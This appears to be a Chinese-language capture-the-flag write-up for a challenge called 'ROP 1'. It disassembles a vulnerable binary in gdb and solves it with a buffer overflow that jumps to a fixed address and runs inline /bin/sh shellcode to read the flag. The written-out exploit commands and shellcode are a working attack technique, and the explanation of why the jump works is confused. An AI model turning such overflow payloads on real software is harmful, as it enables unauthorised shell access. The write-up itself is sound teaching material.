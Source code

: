 # ROP 1
執行檔被ASLR保護的時候，就是使用如標題[return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming)的時候了！
 * 打開gdb，看提示說的`%eax`有什麼用：
```
$ gdb -q rop1
Reading symbols from rop1...(no debugging symbols found)...done.
(gdb) disass vuln
Dump of assembler code for function vuln:
   0x08048e60 <+0>:	push   %ebp
   0x08048e61 <+1>:	mov    %esp,%ebp
   0x08048e63 <+3>:	sub    $0x48,%esp; buf
   0x08048e66 <+6>:	sub    $0x8,%esp; name
   0x08048e69 <+9>:	pushl  0x8(%ebp); argument name of strcpy
   0x08048e6c <+12>:	lea    -0x48(%ebp),%eax; load buf -> %eax!
   0x08048e6f <+15>:	push   %eax; argument buf of strcpy
   0x08048e70 <+16>:	call   0x80481e0; calling strcpy
   0x08048e75 <+21>:	add    $0x10,%esp
   0x08048e78 <+24>:	leave
   0x08048e79 <+25>:	ret
End of assembler dump.
```
 * `%eax`存著指到buf的pointer，那麼有什麼function會用到呢？
```
(gdb) disass be_nice_to_people
Dump of assembler code for function be_nice_to_people:
   0x08048e3c <+0>:	push   %ebp
   0x08048e3d <+1>:	mov    %esp,%ebp
   0x08048e3f <+3>:	sub    $0x18,%esp
   0x08048e42 <+6>:	call   0x806c2d0 <getegid>
   0x08048e47 <+11>:	mov    %eax,-0xc(%ebp); here
   0x08048e4a <+14>:	sub    $0x4,%esp
   0x08048e4d <+17>:	pushl  -0xc(%ebp)
   0x08048e50 <+20>:	pushl  -0xc(%ebp)
   0x08048e53 <+23>:	pushl  -0xc(%ebp)
   0x08048e56 <+26>:	call   0x806c2e0 <setresgid> ; !!!!
   0x08048e5b <+31>:	add    $0x10,%esp
   0x08048e5e <+34>:	leave  
   0x08048e5f <+35>:	ret
```
 * 整理一下，目前有的線索：
  * `%eax`存著指到`buf`的pointer
  * `be_nice_to_people`的`setresgid`會把buf搬到那裡執行！

## Solve
 * 目前stack：
```
...
<ret addr>
<old %ebp>   <= %ebp
<buf..0x48
bytes..long>
<addr-name>
<addr -buf>   <= %esp
```
 * overflow `<ret addr>` 成`be_nice_to_people`的位置(`0x8048e3c`)
```bash
$ ./rop1 "$(python -c 'print "A" * 0x48 + "A" * 4 + "\x3c\x8e\x04\x08"')"
Illegal instruction (core dumped)
```
 * bingo！接下來，替換成開啟shell的shellcode：
```
$ ./rop1 "$(python -c 'print "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68" + "A" * 36 + "\x3c\x8e\x04\x08"')"
$ ls
Makefile    flag.txt    rop1    rop1.c
$ cat flag.txt
theres_no_need_to_guess
```
